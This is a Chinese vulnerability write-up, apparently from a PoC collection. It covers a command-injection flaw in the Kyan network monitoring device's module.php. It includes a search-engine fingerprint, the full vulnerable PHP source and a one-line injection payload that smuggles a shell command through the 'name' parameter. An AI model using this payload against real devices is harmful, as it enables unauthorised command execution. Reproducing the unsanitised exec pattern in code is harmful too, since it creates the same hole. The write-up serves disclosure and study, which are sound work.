


# Kyan 网络监控设备 module.php 远程命令执行漏洞

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Kyan网络监控设备
- 本文讨论：module.php cmd=delete name命令注入
- 版本、权限与配置前提：auth_check通过；Windows/Linux；未给固件
- 资料类型：源码审计/PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- user_is_admin仅控制删除链接显示，服务端删除分支未显式检查角色，需区分登录与管理员
- 不要将相似license.php模板直接合成一个入口；命令目录pkgs及Windows多执行一条不同
- 凭据泄露是可选前置链不是本入口免认证证明

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- auth_check语义与普通用户可利用性待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Kyan 网络监控设备 module.php 可在身份验证的情况下执行任意命令, 配合账号密码泄露漏洞，可以获取服务器权限，存在远程命令执行漏洞

## 漏洞影响

```
Kyan
```

## 网络测绘

```
app="Kyan设计"
```

## 漏洞复现

登录页面如下



存在漏洞的文件: `/module.php`

```
<?php
require_once 'config.php';
require_once 'functions.php';
require_once 'international.php';
session_start();
auth_check();

$BASH = "";
if (is_windows()) {
	$BASH = "c:\\cygwin\\bin\\bash --login -c ";
	$PREFIX = "/cygdrive/z/writable/";
	$PREFIX2 = "/cygdrive/z/";
} else {
	$BASH = "/bin/bashsuid -p -c ";
	$PREFIX = "/config/";
	$PREFIX2 = "/";
}
$encrypt_key = 'enc@leadmeet';
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
	if (!isset($_FILES['fileupload'])) {
		show_error(lang_get('no file specified'));
		exit;
	}
	if ($_FILES['fileupload']['size'] == 0) {
		show_error(lang_get('file size is zero'));
		exit;
	}
	$fileupload = $_FILES['fileupload'];
	$destdir = $PREFIX.'pkgs';
	$pkg_extract_dir = $PREFIX2.'pkgs';
	$tmpname = $fileupload['tmp_name'];
	if (is_windows()) {
		$bn = basename($tmpname);
		$command = "move /Y \"". $tmpname . "\" c:\\cygwin\\dev\\shm\\" . $bn;
		shell_exec($command);
		$tmpname = "/dev/shm/" . $bn;
	}
	shell_exec($BASH."\"mkdir -p /dev/shm/upload && chmod -R 777 /dev/shm/ \"");
	exec($BASH."\"cd /dev/shm/upload && ( bzcat " . $tmpname . " | openssl bf-cbc -d -k " . $encrypt_key . " | cpio -idu )\"", $output, $ret);
	if($ret <> 0)
	{
		show_error(lang_get('Extract file failed'));
		exec($BASH."\"rm -rf /dev/shm/upload\"");
		exit;
	}
	exec($BASH."\"cd /dev/shm/upload && md5sum -c md5sum\"", $output, $ret);
	if($ret <> 0)
	{
		show_error(lang_get('MD5 check failed'));
		exec($BASH."\"rm -rf /dev/shm/upload\"");
		exit;
	}
	if (is_windows())
		$dh = opendir('c:\\cygwin\\dev\\shm\\upload');
	else
		$dh = opendir('/dev/shm/upload');
	if(!$dh)
	{
		show_error(lang_get('can not open dest dir to copy'));
		exec($BASH."\"rm -rf /dev/shm/upload\"");
		exit;
	}
	exec($BASH."\"touch /tmp/mmap_watch_pause\"");
	while($file = readdir($dh))
	{
		if(is_dir($file)) continue;
		$file = trim($file);
		if(ereg('\.pkg$', $file))
		{
			$filetitle = basename($file, '.pkg');
			$extract_dir = $pkg_extract_dir  . '/' . $filetitle;
			exec($BASH."\"" . $extract_dir . "/.init stop\"");
			exec($BASH."\"mkdir -p " . $destdir . " && mv -f /dev/shm/upload/" . $file . " " . $destdir . "\"");
			exec($BASH."\"rm -rf " . $extract_dir . " && mkdir -p " . $extract_dir . " && cd " . $extract_dir . " && bzcat " . $destdir . '/' . $file . " | cpio -idu \"");
		}
	}
	if (!is_windows())
		exec($BASH."\"/sbin/ldconfig\"");
	else
		exec($BASH."\"rm -rf ". $tmpname ."\"");
	exec($BASH."\"rm -f /tmp/mmap_watch_pause\"");
	exec($BASH."\"rm -rf /dev/shm/upload\"");
}
if (isset($_GET['cmd']) && isset($_GET['name'])) {
	$cmd = $_GET['cmd'];
	if ($cmd == 'delete') {
		$name = $_GET['name'];
		exec($BASH."\"rm -f ".$PREFIX."pkgs/".$name."\"");
		if (is_windows())
			exec($BASH."\"rm -rf ".$PREFIX2."pkgs/".$name."\"");
	}
}
print_html_begin('module');
echo "<body>\n";
echo "<table style=\"width:500px\"  border='0' align='center' cellpadding='3' cellspacing='1'>\n";
echo "<th colspan=2>".lang_get('modules')."</th>\n";
echo "<tr><td>".lang_get('name')."</td><td>".lang_get('operation')."</td></tr>\n";
if (is_windows())
	$dh = opendir('z:\\writable\\pkgs');
else
	$dh = opendir('/config/pkgs');
if ($dh) {
	while ($file = readdir($dh)) {
		if (is_dir($file))
			continue;
		$file = trim($file);
		if (!ereg('\.pkg$', $file))
			continue;
		$filetitle = basename($file, '.pkg');
		echo "<tr><td align=center>".$filetitle."</td><td>";
		if (user_is_admin())
			echo "<a href=\"/module.php?cmd=delete&name=".$filetitle.".pkg\">".lang_get('delete')."</a>";
		echo "</td></tr>\n";
	}
}
echo "</table>\n<br>\n";
echo "<table style=\"width:500px\"  border='0' align='center' cellpadding='3' cellspacing='1'>\n";
echo "<form action=\"".$_server['php_self']."\" method=\"post\" enctype=\"multipart/form-data\">\n";
echo "<input type=\"hidden\" name=\"max_file_size\" value=\"200000000\">\n";
echo "<th align=\"center\" colspan=\"2\">".lang_get('modules to upload')."</th>";
echo "<tr> <td align=\"right\" width=\"50%\">" .lang_get('select file')."</td><td align=\"left\"> <input type=\"file\" name=\"fileupload\"> </td></tr>";
echo "<tr> <td align=\"center\" colspan=\"2\">  <input type=\"submit\" name=\"submit\" value=".lang_get('upload')."> </td></tr>";
echo "</form>\n</table>\n";
echo "</body>\n";
print_html_end();
?>
```

其中需要注意的部分

```
if (isset($_GET['cmd']) && isset($_GET['name'])) {
	$cmd = $_GET['cmd'];
	if ($cmd == 'delete') {
		$name = $_GET['name'];
		exec($BASH."\"rm -f ".$PREFIX."pkgs/".$name."\"");
		if (is_windows())
			exec($BASH."\"rm -rf ".$PREFIX2."pkgs/".$name."\"");
	}
}
```

参数均可控，构造POC

```
/module.php?cmd=delete&name=;id>1.txt;
```




---

> 来源：Threekiii/Awesome-POC
